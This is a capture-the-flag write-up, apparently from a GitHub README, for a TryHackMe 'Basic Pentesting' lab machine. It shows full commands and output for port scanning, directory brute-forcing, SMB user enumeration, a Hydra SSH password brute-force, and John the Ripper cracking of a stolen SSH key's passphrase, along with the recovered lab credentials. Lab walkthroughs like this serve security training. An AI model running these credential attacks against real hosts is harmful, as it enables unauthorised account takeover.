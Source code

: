 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)
[![Needed-Hydra](https://img.shields.io/badge/Needed-Hydra-green)](https://github.com/vanhauser-thc/thc-hydra)
[![Needed-John](https://img.shields.io/badge/Needed-John-red)](https://github.com/openwall/john)
[![Needed-enum4linux](https://img.shields.io/badge/Needed-enum4linux-yellow)](https://github.com/CiscoCXSecurity/enum4linux)

# Basic Pentesting

## Reconnaissance
First step is to find the services exposed on the vulnerable machine. Running `nmap` with option `-sS` we get nothing, hence the machine probably ignores ICMP. We try to run the command again with `-Pn` option:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -Pn -sS -sV 10.10.147.42
Nmap scan report for 10.10.147.42
Host is up (0.33s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By visiting it on the browser, we can see that on port 80 there's a maintainance page, and on port 8080 a Tomcat instance.

## Enumeration
On port 8080 we can't see any public subdirectory, so we can bruteforce it with gobuster. Unfortunately we can't see nothing useful on this port, so we try on port 80:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.147.42:80
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.147.42:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/17 00:49:37 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 318] [--> http://10.10.147.42/development/]
...
```

On this port gobuster just found `/development` directory with two files.

### dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

### j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

### Deductions
1) SMB is configured
2) There's a REST app in a vulnerable version of Apache Struts
3) J has a weak password -> easily crackable

### SMB port
#### Shares
The present shares can be seen with an `smb-enum-shares.nse`. In this case we can find `anonymous` and `BASIC2`.<br>
Anonymous doesn't have a password, so we can access it and see the file `staff.txt`:
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

#### Local users
With the tool `enum4linux` we can enumerate the SMB port to get the machine users:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ enum4linux -a 10.10.204.37
...
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
```

Now  we have a confirmation of the two accounts Kay and Jan!

## Password cracking
Knowing that Jan has a weak password, we can try to bruteforce it with Hydra. In fact we cracked the password in some minute with:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Basic_Pentesting]
└─$ hydra -f -t 4 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.151.11
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.151.11:22/
[STATUS] ...
[22][ssh] host: 10.10.151.11   login: jan   password: armando
[STATUS] attack finished for 10.10.151.11 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
...
```

Now we can access jan's account through ssh.

## Privilege escalation
After the access we notice that Jan's home is empty, except for an unaccessible hidden file, so we start to look for other users (a.k.a. Kay). We cannot access Kay's files in `/home/kay`, but somehow we can access Kay's SSH keys in `~/.ssh/`.<br>
After copying the keys we try to access Kay's account, but the machine asks for a passphrase... Let's crack it!

### Passphrase crack
To crack the passphrase the first step is to get the hash from the private key with the command `ssh2john id_rsa_kay > hashes.hash`.<br>
Now we need to crack the hash with John the ripper:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Basic_Pentesting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
beeswax          (id_rsa_kay)
1g 0:00:00:00 DONE (2022-03-17 16:55) 25.00g/s 2068Kp/s 2068Kc/s 2068KC/s bird..bammer
Session completed.
```

Now we can get in using ssh key and the passphrase `beeswax`. On Kay's home there's the flag file `pass.bak`